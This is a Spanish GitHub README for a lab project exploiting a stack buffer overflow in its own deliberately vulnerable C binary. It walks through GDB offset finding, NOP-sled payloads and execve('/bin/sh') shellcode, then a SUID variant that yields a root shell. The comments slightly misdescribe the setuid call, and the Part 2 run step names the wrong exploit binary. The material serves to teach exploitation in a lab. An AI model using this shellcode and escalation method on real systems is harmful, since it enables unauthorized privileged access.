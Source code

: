# Buffer Overflow Exploitation

Este proyecto muestra cómo explotar una vulnerabilidad de tipo **stack buffer overflow** para ejecutar código arbitrario, obteniendo una shell local y escalando privilegios con el bit **SUID** activado.

---

## Contenido del proyecto

- `vulnerable.c`: binario vulnerable que copia la entrada del usuario a un buffer sin control de límites.
- `exploit.c`: código que construye un payload para ejecutar una shell local (`/bin/sh`).
- `exploit_suid.c`: versión del exploit adaptada para binarios con el bit SUID activado.
- `exploit.asm`: shellcode necesario para lanzar `/bin/sh` sin escalada de privilegios.
- `exploit_suid.asm`: shellcode que primero ejecuta `setuid(geteuid())` y luego lanza la shell.

---

## Parte 1: Ejecución de shell local

### Análisis del binario vulnerable

El binario vulnerable contiene el siguiente código:

```c
void function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // ¡Sin comprobación de límites!
}
```

La vulnerabilidad está en el uso de `strcpy`, que copia sin verificar tamaño.

Esto permite que un atacante sobrescriba la dirección de retorno (RIP) en la pila
al introducir más de 64 bytes, redirigiendo el flujo de ejecución hacia código 
arbitrario como una shellcode.

---

### Cálculo del offset

Para determinar el desplazamiento hasta RIP, iniciamos GDB:

```bash
gdb ./vulnerable
```

Y colocamos un breakpoint justo después del `strcpy` y ejecutamos con diferentes longitudes (mayor que 64 y multiplo de 8) hasta dar con la que sobreescriba el rip, en este caso es 80:

```bash
(gdb) b *main+36
(gdb) run $(python3 -c 'print("A"*80)')
```

Cuando el programa se detenga, usamos el siguiente comando para ver el contenido del `rip`:

```bash
(gdb) info frame
```

Veremos `rip = 0x4141414141414141`, lo que indica que las 'A' lo han sobrescrito.
Así confirmamos que el offset es de 72 bytes (80 - 8 de dirección de retorno).

Tambien se puede visualizar la pila con:

```bash
(gdb) x/20x $rsp + 16
0x7fffffffef7d: 41414141 ...
```

---

### Dirección de retorno al buffer

Para ejecutar shellcode, debemos redirigir el flujo a la dirección del buffer.
Es importante obtener esta dirección desde `gdb ./exploit` y no desde `gdb ./vulnerable`.

Esto se debe a que el binario `exploit` reserva y posiciona el buffer en memoria,
y la dirección cambia dependiendo de qué ejecutable lo contenga.

```bash
gdb ./exploit
```

Coloca breakpoints al inicio del código para inspeccionarlo y ejecútalo:

```bash
(gdb) b main
(gdb) r
```

Luego, avanza paso a paso con `next` (`n`) hasta entrar en la ejecución de `vulnerable.c`, donde tendrás otro breakpoint por comenzar el `main` de ese programa.

En ese punto deberías de comprobar que se han pasado 2 argumentos. El segundo argumento muestra la direccion de inicio del buffer:

```bash
(gdb) print argc
$1 = 2
(gdb) print argv[1]
$2 = 0x7fffffffef7d ...
```

Usaremos esa dirección como la nueva dirección de retorno al final del payload.

---

### Shellcode utilizada

La shellcode realiza una llamada directa a `execve("/bin/sh", NULL, NULL)`.
El formato hexadecimal se ha obtenido transformándo el codigo ensamblador `exploit.asm` de la siguiente manera:

```bash
nasm -f elf64 exploit.asm -o exploit_shellcode.o
ld exploit_shellcode.o -o exploit_shellcode
objdump -d exploit_shellcode | grep '[0-9a-f]:' | \
awk '{for(i=2;i<NF;i++) if($i ~ /^[0-9a-f]{2}$/) printf "\\x%s", $i; print ""}' | \
tr -d '\n'; echo
```

Así obtenemos la shellcode en formato hexadecimal:

```asm
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Estructura del payload

El payload está compuesto por:

1. NOP sled: una secuencia de bytes `\x90` para aumentar tolerancia al salto.
2. Shellcode: las instrucciones que ejecutan `/bin/sh`.
3. Dirección de retorno: apunta al NOP sled o directamente al shellcode.

Esta estructura es robusta, ya que incluso si el salto no es exacto,
caerá en la zona NOP y terminará ejecutando la shellcode igualmente.

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit exploit.c
```

---

### Ejecucion

```bash
./exploit
$
```

A partir de ahora, tenemos acceso a una terminal de la victima, que se puede comprobar haciendo:

```bash
$ whoami
user
```

---

## Parte 2: Explotación de binario con bit SUID

En esta fase se explota un binario con el bit SUID activado (propiedad de root), lo que permite heredar sus privilegios al ejecutar la shellcode.

### Preparación del binario

```bash
sudo chown root:root vulnerable
sudo chmod u+s vulnerable
```

---

### Shellcode extendido

La shellcode utilizada añade una llamada a `setuid(geteuid())` justo antes de ejecutar `/bin/sh`.
Esto garantiza que la shell heredada mantenga los privilegios elevados otorgados por el bit SUID.
Para obtener el formato hexadecimal se ha seguido el mismo proceso anterior, pero con el fichero `exploit_suid.asm`:

```bash
nasm -f elf64 exploit_suid.asm -o exploit_shellcode_suid.o
ld exploit_shellcode_suid.o -o exploit_shellcode_suid
objdump -d exploit_shellcode_suid | grep '[0-9a-f]:' | \
awk '{for(i=2;i<NF;i++) if($i ~ /^[0-9a-f]{2}$/) printf "\\x%s", $i; print ""}' | \
tr -d '\n'; echo
```

Así obtenemos la shellcode en formato hexadecimal:

```asm
// -- setuid(geteuid()) --
"\x48\x31\xff"                              // xor    rdi, rdi
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x69"                                  // mov    al, 0x69 (setuid)
"\x0f\x05"                                  // syscall
// -- execve("/bin/sh", NULL, NULL)         // Ya utilizada en la parte 1
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit_suid exploit_suid.c
```

---

### Ejecución

```bash
./exploit
#
```

A partir de ahora tenemos acceso a una terminal de la victima con permisos de root, que se puede comprobar haciendo:

```bash
# whoami
root
```

---

## Autor

**Julen Casajús**  
[GitHub Profile](https://github.com/JulenCasajus)

